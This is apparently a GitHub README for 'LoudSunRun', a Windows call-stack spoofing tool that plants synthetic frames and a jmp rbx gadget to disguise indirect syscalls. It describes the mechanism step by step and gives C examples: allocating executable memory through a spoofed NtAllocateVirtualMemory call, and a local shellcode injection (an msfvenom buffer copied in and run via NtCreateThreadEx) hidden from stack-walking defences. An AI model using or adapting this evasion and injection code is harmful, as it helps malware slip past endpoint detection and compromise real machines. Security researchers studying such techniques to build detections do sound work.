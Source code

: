 # LoudSunRun
Stack Spoofing with Synthetic frames based on the work of namazso, SilentMoonWalk, and VulcanRaven

## Why?
Learning purposes

## Overview
There are a few steps this program does

1. Allocate args on stack
2. Generate fake frames
3. Prep syscall
4. Spoof the return address
5. Make the call

To perform these, a param struct is passed as arg 5 and the number of stack args is passed on arg 6. The param struct contains the following:
* address of the `jmp rbx` gadget  
* the original return address (for the Spoof function to return to)
* the stack sizes of our fake frames and gadget
* the address we want our fake frames to show on the call stack
* a SSN for syscalls (if included/ommited for non indirect syscalls, it does not affect anything)

The total stack size of the fake frames is calculated and the stack args are moved accordingly. A 0 is pushed onto the stack. This cuts off the stack walk. 

Frames are then added, but in reverse order of appearence on the stack. They are planted like so  

1. Decrement stack pointer by the frame's size
2. Place the return address at the stack pointer

Then, the param struct is modified to "save" some information. The `fixup` function is loaded into the rbx, so when the function returns (to a `jmp rbx` gadget), it will land into `fixup`. Fixup then undoes all the funky stack pointer movement, restores the rbx, and jumps back to the OG return address.

## Implementation
A function can be called like so
```c
Spoof(arg1, arg2, arg3, arg4, &param, function, (PVOID)0);
```
Param is a struct containing some necessary information for the call to have fake frames added.  
The 6th argument is a pointer to the function to execute  
The 7th argument specifies the number of args to pass to the stack. It has to be at an 8 byte size.

Example of calling NtAllocateVirtualMemory with the indirect syscall method
```c 
/////////////////////////////
// Initialize param struct //
/////////////////////////////
PVOID ReturnAddress = NULL;
PRM p = { 0 };
NTSTATUS status = STATUS_SUCCESS;

// just find a JMP RBX gadget. Can look anywhere. I chose k32
p.trampoline = FindGadget((LPBYTE)GetModuleHandle(L"kernel32.dll"), 0x200000); 
printf("[+] Gadget is at 0x%llx\n", p.trampoline);

// You should probably walk the export table, but this is quick and easy.
ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("kernel32.dll"), "BaseThreadInitThunk")) + 0x14; 
p.BTIT_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.BTIT_retaddr = ReturnAddress;

ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlUserThreadStart")) + 0x21;
p.RUTS_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.RUTS_retaddr = ReturnAddress;

p.Gadget_ss = CalculateFunctionStackSizeWrapper(p.trampoline);

// Hard coded for my machine, theoretically you do FreshyCalls or something
p.ssn = 0x18; 

/////////////////////////////
// Initialize Syscall Args //
/////////////////////////////

PVOID alloc = NULL;
SIZE_T size = 1024;

///////////////////////////
// Call with fake frames //
///////////////////////////

Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);

```

If your machine works like mine, it will look like this

![Call Stack](https://i.imgur.com/aHWnX4S.png)

Example calling calc
```
unsigned char buf[] = //msfvenom brrr

PVOID alloc = NULL;
SIZE_T size = 1024;

PVOID pNtAllocateVirtualMemory = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory")) + 0x12;
PVOID pMemcpy = GetProcAddress(LoadLibraryA("msvcrt.dll"), "memcpy");
PVOID pNtCreateThreadEx = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx")) + 0x12;

p.ssn = 0x18;
Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);
Spoof(alloc, buf, (PVOID)276, NULL, &p, pMemcpy, (PVOID)0);
p.ssn = 0xc2;
PVOID hThread = NULL;
Spoof(&hThread, (PVOID)THREAD_ALL_ACCESS, NULL, (PVOID)(-1), &p, pNtCreateThreadEx, (PVOID)7, alloc, NULL, NULL, NULL, NULL, NULL, NULL);
Spoof((PVOID)INFINITE, NULL, NULL, NULL, &p, Sleep, (PVOID)0);
```
## Concerns
I have not done extensive testing with this. I only called a few functions and tried a local shellcode injection. There could be some edge cases I haven't tested. 

Please reach out to me for any comments and such. Godspeed.

## Credits
5pider - Gadget Finder code  
namazso - Return Address Spoofing  
klezvirus, waldoirc, trickster0 - SilentMoonWalk (for Frame funky things)  
william-burgess - Vulcan Raven (for finding stack wrapper)
